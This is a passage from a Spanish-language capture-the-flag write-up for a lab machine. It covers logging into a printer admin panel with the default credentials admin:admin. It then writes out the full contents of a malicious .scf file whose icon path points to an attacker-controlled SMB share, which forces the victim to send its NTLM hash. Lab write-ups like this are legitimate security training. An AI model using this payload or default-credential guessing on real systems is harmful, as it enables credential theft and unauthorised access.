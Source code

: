 ### HTTP

Al acceder al puerto **80**, se presentó una ventana de **autenticación HTTP básica**. Probando combinaciones comunes, el usuario y contraseña `admin:admin` fueron aceptados, permitiendo el acceso al sitio. El contenido corresponde a una **interfaz de administración de impresoras**, que ofrecía una funcionalidad para subir firmwares destinados a pruebas internas por parte de un equipo remoto. Este punto se vuelve clave más adelante, ya que nos permitirá interactuar con el sistema a través de archivos maliciosos.

![1](/assets/img/machines/driver/1.jpeg)

## SCF Malicious File
Dentro del panel web, se ofrecía una función para **subir firmwares de impresora**, lo que abría la puerta a posibles vectores de ataque basados en archivos maliciosos. Aprovechando esto, se creó un archivo con extensión `.scf` (Shell Command File), un formato conocido por poder desencadenar la **autenticación automática del usuario hacia un recurso compartido**, provocando así el envío del hash NTLM al atacante.

El contenido del archivo `file.scf` fue el siguiente:
```
[Shell]
Command=2
IconFile=\\10.10.16.6\smbFolder\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
![2](/assets/img/machines/driver/2.jpeg)
